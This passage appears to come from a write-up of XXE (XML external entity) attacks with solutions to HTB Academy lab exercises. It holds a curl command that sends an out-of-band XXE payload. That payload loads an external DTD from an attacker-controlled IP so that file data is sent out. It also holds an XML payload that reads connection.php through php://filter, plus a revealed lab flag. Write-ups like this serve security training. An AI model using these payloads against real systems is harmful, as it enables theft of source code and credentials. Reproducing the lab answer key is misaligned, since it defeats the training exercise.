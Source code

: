 ```bash
# Step 4: Send XXE payload
echo "[+] Sending OOB XXE payload"
curl -X POST "$TARGET" \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://'$ATTACKER_IP':8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>'

echo "[+] Check server logs for exfiltrated data"
wait $SERVER_PID
```

---

## HTB Academy Lab Solutions

### Lab 1: Connection.php API Key Extraction

**Target:** `http://10.129.234.170` (ACADEMY-WEBATTACKS-XXE)

**Objective:** Read `connection.php` and find `api_key` value

**Solution:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
    <name>Test User</name>
    <email>&file;</email>
    <message>Test message</message>
</root>
```

**Decode Base64 Response:**
```bash
# Extract base64 from HTTP response
echo "[BASE64_OUTPUT]" | base64 -d

# Look for api_key value in decoded PHP code
```

**🎯 Flag:** `UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg`

### Lab 2: Advanced Flag.php Extraction

**Target:** `http://10.129.234.170` (ACADEMY-WEBATTACKS-XXE)

**Objective:** Read `/flag.php` using CDATA or Error-based methods
